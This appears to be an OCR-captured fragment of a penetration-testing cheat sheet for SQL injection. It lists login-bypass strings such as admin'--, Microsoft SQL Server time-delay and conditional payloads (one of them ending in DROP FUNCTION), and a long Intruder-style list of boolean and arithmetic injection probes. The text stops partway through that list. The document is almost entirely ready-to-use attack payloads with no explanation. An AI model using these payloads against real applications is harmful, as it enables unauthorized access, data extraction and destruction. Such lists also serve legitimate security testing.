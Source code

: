                 1' or '1'='1'--
                
                admin'--
                
                administrador'--
                ```
                
            - Microsoft SqlServer
                
                ```jsx
                Id=ORD-003' WAITFOR DELAY '0:0:5'-- YSIp
                ```
                
                ```jsx
                ?Id=ORD-003';IF(5372=5372) SELECT 5372 ELSE DROP FUNCTION ZZSu—
                ```
                
            
            - intruder:
                
                ```markdown
                true
                1
                1>0
                2-1
                0+1
                1*1
                1%2
                1 & 1
                1&1
                1 && 2
                1&&2
                -1 || 1
                -1||1
                -1 oR 1=1
                1 aND 1=1
                (1)oR(1=1)
                (1)aND(1=1)
                -1/**/oR/**/1=1
                1/**/aND/**/1=1
                1'
                1'>'0
                2'-'1
                0'+'1
                1'*'1
                1'%'2
                1'&'1'='1
                1'&&'2'='1
                -1'||'1'='1
                -1'oR'1'='1
                1'aND'1'='1
                1"
                1">"0
                2"-"1
                0"+"1
                1"*"1
                1"%"2
                1"&"1"="1
                1"&&"2"="1
                -1"||"1"="1
                -1"oR"1"="1
                1"aND"1"="1
                1`
                1`>`0
                2`-`1
                0`+`1
                1`*`1